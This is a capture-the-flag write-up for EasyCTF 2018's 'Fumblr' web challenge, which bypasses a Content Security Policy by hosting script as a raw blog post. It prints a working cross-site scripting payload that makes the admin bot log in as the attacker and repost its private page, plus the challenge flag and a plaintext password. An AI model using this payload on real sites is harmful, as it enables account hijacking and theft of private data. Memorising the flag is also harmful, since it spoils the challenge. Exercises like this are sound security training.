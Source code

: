 # EasyCTF_2018: Fumblr

**Category:** Web
**Points:** 275
**Description:**

>Come check out the latest blogging platform all the cool kids are using! I tried my hardest to make it hack-proof. If you can read the admin's hidden posts, I'll even give you a flag!! [Good luck](http://c1.easyctf.com:12491/)!?

## Write-up
This challenge tests upon the bypassing of Content Security Policy that prevented the use of in-line scripts. Other than that, it was mostly a test on creativity to force the _admin_ to do whatever I wanted him to do to give me my flag.

To solve this challenge, create our first blog post with our malicious script. This essentially saves the entire blog page in a variable, logs out, logs back in as us and posts the blog page in a blog post. I smile to myself when I think of my own solution. Please don't hack me. I use the same password for every site.

    // Get blog
    var resp = $.get({url: "http://c1.easyctf.com:12491/profile", async: false}).responseText;
    var username = $(resp).find("p")[0].innerHTML.match(/: ([\w]+)/)[1];
    var blog = $.get({url: "http://c1.easyctf.com:12491/blog/" + username, async: false}).responseText;

    // Logout
    $.get({url: "http://c1.easyctf.com:12491/logout", async: false});

    // Login
    var resp = $.get({url: "http://c1.easyctf.com:12491/login", async: false}).responseText;
    var csrf = $($(resp).find("form input[name='_csrf']")[0]).val()
    $.ajax({type: "POST", url: "http://c1.easyctf.com:12491/login", data: {username: "cykablyat123", password: "h$rw@5Fjuj2#m89cU6PrkWWHS3P&2Bya", _csrf: csrf}, async: false});

    // Post blog
    var resp = $.get({url: "http://c1.easyctf.com:12491/profile", async: false}).responseText;
    var username = $(resp).find("p")[0].innerHTML.match(/: ([\w]+)/)[1];
    var resp = $.get({url: "http://c1.easyctf.com:12491/blog/" + username, async: false}).responseText;
    var csrf = $($(resp).find("form input[name='_csrf']")[0]).val()
    $.ajax({type: "POST", url: "http://c1.easyctf.com:12491/create-post", data: {title: "HTML", body: blog, _csrf: csrf}, async: false});

Create our second blog post embedding the previous script inside as a _raw_ file. Remember to insert the previous post's URL into the script.

    <script src="http://c1.easyctf.com:12491/blog/cykablyat123/INSERT OUR PREVIOUS'S POST URL/raw"></script>

Next, simply report our second blog post and wait. After a couple seconds, a new blog post would've been created by the _hacked_ admin user and we get the HTML source code of the admin's blog. Doing a bit of `CTRL-F`, you come across a [nice looking site](http://c1.easyctf.com:12491/blog/admin/5a8bc3f6c532ff2a0057ba3a). Accessing the site, we get the flag.

![screenshot](screenshot.png)

Therefore, the flag is `easyctf{I_th0ght_CSP_m4d3_1t_s3cur3?}`.
